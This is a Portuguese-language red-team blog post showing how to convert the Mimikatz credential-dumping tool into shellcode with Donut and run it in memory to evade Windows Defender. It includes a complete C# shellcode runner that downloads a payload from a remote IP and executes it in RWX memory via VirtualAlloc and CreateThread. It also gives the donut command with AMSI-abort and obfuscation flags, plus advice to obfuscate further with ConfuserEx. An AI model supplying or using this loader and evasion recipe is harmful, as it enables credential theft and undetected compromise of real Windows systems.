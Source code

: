 ```yaml
---
title: Transforming Mimikatz into a Shellcode and Bypassing Defender
published: 2023-07-13
description: 'How to transform mimikatz into shellcode to bypass AVs and EDRs'
image: './banner.png'
tags: [red-team, malware]
category: 'Malware'
draft: false 
lang: ''
---
```


Como todo bom red-teamer que preze, ao realizarmos uma operação, sempre procuraremos por ser o mais evasivo o possivel, ultilizando de diversas técnicas para que passemos por despercebidos por soluções de anti-virus/defender dentre outras.

Sendo assim, o ideal nesses cenários é você imaginar que o disco é lava, quanto menos informação for gravada no disco, melhor é para não ser detectado em um ataque.

Então sempre que conseguirmos, a melhor forma de uma boa OPSEC, é executarmos tudo em memória, ja que a mesma é volatil, e isso dificulta anti-virus e etc a detectarem nossos programas, malwares e shellcodes.

---

Uma ferramenta bastante conhecida pelos red-teamers, é o mimikatz é uma ferramenta desenvolvida em C  focada em post-exploitation em sistemas operacionais Windows. Com ela, possível dumpar hashes nas mais diversas maneiras possível tal como abusando de permissões do LSA Server. Ademais, também é possível realizar outras modalidades de ataques, como ataques explorando o protocolo Kerberos e protocolo RDP, ataques de pass the hash, pass the ticket, entre outros.

Dada a breve introdução sobre o mimikatz, vamos ao que importa. Como foi dito anteriormente o ideal é sempre executar binarios/shellcode em memória, atraves desse paper, vou mostrar uma técnica para transformarmos o mimikatz em um shellcode, e o execurtamos em memória, e ultilizar o mimikatz normalmente

---

Como runner, para o nosso mimikatz vou ultilizar um shellcoderunner escrito em C#

O código de certa forma é simples, este é o fluxo de execução do código

- Utilizar API VirtualAlloc para reservar espaço em memória.
- Utilizar função Copy para copiar shellcode para espaço
reservado anteriormente
- Utilizar API CreateThread para executar o código.
- Utilizar API WaitForSingleObject para manter o processo aberto, por tempo indeterminado.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Windows;
using System.Net;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
       flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
       IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
       dwMilliseconds);

        static void Main(string[] args)
        {
            string url = "http://192.168.119.132/loader.bin";
            WebClient wc = new WebClient();
            wc.Headers.Add("user-agent","Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko");
            byte[] code = wc.DownloadData(url);

            int size = code.Length;

 
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)code.Length, 0x3000, 0x40);
            Marshal.Copy(code, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);            
            WaitForSingleObject(hThread, 0xFFFFFFFF);

        }
    }
}
```

O runner, irá baixar o shellcode(loader.bin) que posteriormente será o mimikatz.exe mas transformado em shellcode.

E como fazemos essa conversão ? Há uma ferramenta chamada [Donut](https://github.com/TheWover/donut) essa ferramenta é capaz de gerar shellcodes de executáveis arbitrários, então oque vamos fazer, vamos copiar o executavel do mimikatz para dentro da pasta do donut.

Gere um shellcode do mimikatz com o seguinte comando:

- `donut --input=mimikatz.exe -b 2 -e 2`

- `--input` é utilizado para definir qual arquivo vamos passar para gerar o
shellcode
- `--b 2` é utilizado para abortar a execução caso o script detectar AMSI
- `--e 2` é utilizado para ofuscação, randomizando o conteúdo do payload

Após isso sera gerado o arquivo *.bin, que é o mimikatz transformado em shellcode, passaremos para o nosso runner, para que em runtime ele baixe o shellcode, e o execute em memória

![](./img1.png)

W00t W00t, mimikatz executado com sucesso em memoria !!!

A fins de mais opsec, você pode ofuscar o binario com alguns Ofuscadores como o [ConfuserEx](https://github.com/yck1509/ConfuserEx), Ofuscar, neste caso ja foi o suficiente para o mimikatz ser executado sem que o defender nos detectasse.